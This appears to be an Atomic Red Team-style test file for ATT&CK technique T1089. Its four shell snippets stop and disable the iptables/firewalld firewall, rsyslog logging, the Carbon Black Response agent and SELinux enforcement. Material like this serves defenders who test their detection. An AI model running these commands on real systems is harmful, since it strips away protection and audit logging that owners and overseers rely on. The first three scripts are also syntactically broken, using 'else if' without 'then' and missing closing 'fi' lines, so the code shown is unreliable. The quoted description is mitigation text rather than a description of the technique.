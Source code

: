 # T1089 - Disabling Security Tools Mitigation
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1089)
>>> Ensure proper process, registry, and file permissions are in place to prevent adversaries from disabling or interfering with security services.

## Atomic Tests

- [Atomic Test #1 - Disable iptables firewall](#atomic-test-1---disable-iptables-firewall)

- [Atomic Test #2 - Disable syslog](#atomic-test-2---disable-syslog)

- [Atomic Test #3 - Disable Cb Response](#atomic-test-3---disable-cb-response)

- [Atomic Test #4 - Disable SELinux](#atomic-test-4---disable-selinux)


<br/>

## Atomic Test #1 - Disable iptables firewall
Disables the iptables firewall

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service iptables stop
  chkconfig off iptables
  service ip6tables stop
  chkconfig off ip6tables
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop firewalld
  systemctl disable firewalld
fi

```
<br/>
<br/>

## Atomic Test #2 - Disable syslog
Disables syslog collection

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service rsyslog stop
  chkconfig off rsyslog
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop rsyslog
  systemctl disable rsyslog
fi

```
<br/>
<br/>

## Atomic Test #3 - Disable Cb Response
Disable the Cb Response service

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi

```
<br/>
<br/>

## Atomic Test #4 - Disable SELinux
Disables SELinux enforcement

**Supported Platforms:** linux


#### Run it with `sh`!
```
setenforce 0

```
<br/>
